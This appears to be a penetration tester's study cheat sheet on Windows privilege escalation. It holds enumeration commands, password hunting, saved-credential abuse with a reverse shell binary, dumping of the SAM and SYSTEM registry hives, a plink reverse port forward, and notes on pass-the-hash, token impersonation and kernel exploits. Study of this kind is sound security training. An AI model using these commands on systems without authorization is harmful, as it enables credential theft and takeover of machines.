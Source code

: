 ```yaml
---
description: >-
  at the end of the day, you have to picture the way. these tools can only guide
  you so much
---
```


# Windows PrivEsc

HKCU - Current User\
HKLM - Local Machine

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html" %}
Whole picture + Weak Services
{% endembed %}

{% embed url="https://benheater.com/thm-windows-privesc/" %}
No nonsense - straight to business
{% endembed %}

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-weak-registry-permission/" %}
Weak Registry
{% endembed %}

Host file -`C:\Windows\System32\drivers\etc\hosts`

## Commands

### Basic Info gathering

```
powershell -ep bypass
. .\Downloads\PowerView.ps1

systeminfo - (look for latest hotfixes patched)
wmic qfe - check patch history (wmi - windows management instrumentation command line quick fix engineering)
wmic logicaldisk get caption,description,providername

findstr /B /C "string" - grep basically
icacls - ACL to files/directories
where /R c:\windows bash.exe

dir /R [Watch out for ADS (Alternate data streams) - good way to hide data]
dir /A:H (ls -la of cmd.exe)
ls -force (ls -la of powershell)
```

### User Enumeration

```
whoami /priv /groups
net user (lists users on system)
net user $username - lists all relavant info of that user
net localgroup $groupname
```

### Network Enumeration

```
ipconfig
arp -a
netstat -ano 
```

### Password Hunting (Can automate)

```
findstr "/si password *.txt (look for string "password" in any txt file) 
```

### AV Enumeration

```
sc query windefend
sc query <query> see what services are running
netsh advfirewall firewall dump
netsh firewall show state/config
```

## Automated Enumeration

#### GO TO

* winPEAS.exe
* PowerUp.ps1
* SharpUp.exe
* Rubeus.exe
* Certify.exe

#### TO BE SOON

* Seatbelt.exe
* Watson.exe
* Sherlock.ps1
* jaws-enum.ps1
* windows-exploit-suggester.py

Sherlock looks for a set of CVEs most famous

## Passwords and Port Forwarding

```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```

Password exploits

*   Saved creds

    ```
    cmdkey /list
    runas /savecred /user:username C:\PrivEsc\reverse.exe
    ```
* Registry - The registry can be searched for keys and values that contain the word "password":
*   SAM (Security Account Manager)\
    SAM and SYSTEM can be found at `Windows/System32/config`

    ```
    reg save hklm\sam c:\Temp\sam
    reg save hklm\system c:\Temp\system
    ```
* Pass the hash - if `psexec` don't work, `smbexec.py` (half shell) or `wmiexec`

## Service Exploits

* Insecure Service Permissions
* Unquoted Service Path&#x20;
* Weak Registry Permissions (If writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users)

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc #check perms
sc qc daclsvc
```

## WSL

not sure if i need it at this point in time so do come back and check up

## Token Impersonation

like cookies for your computer

* Delegate - created for logging into machine or RDP
* Impersonate - "non-interactive" such as attaching network drive or domain login script&#x20;

```
whoami /priv 
```

msfvenom to generate powershell payload, check how to do it wo meterpreter tho

**getsystem** - Magic way to become Admin, DO NOT SPAM

3 methods

* Named Pipe impersonation (In memory/admin)
* Named Pipe impersonation (Dropper/admin) - most risky, will be flagged by AV cus inserting dll into disk
* Token Impersonation (In memory/admin) - Needs SeDebugPriveleges

## Kernel Exploits

Most basic zero skill vector - this why make sure your systems are always updated

windows-exploit-suggester.py does bitsss (update db before using tho, run locally: feed it systeminfo data and it will run it against its db)

it has exploits for diff builds of windows

MS10-059 and others very popular: focus on privelege escalation vulns mentioned&#x20;

## Further ones to watch

* Executable Files - \[Ben `AlwaysInstallElevated`]
* Startup Applications - \[Ben `Autorun`]
* DLL Hijacking - \[Ben DLL]

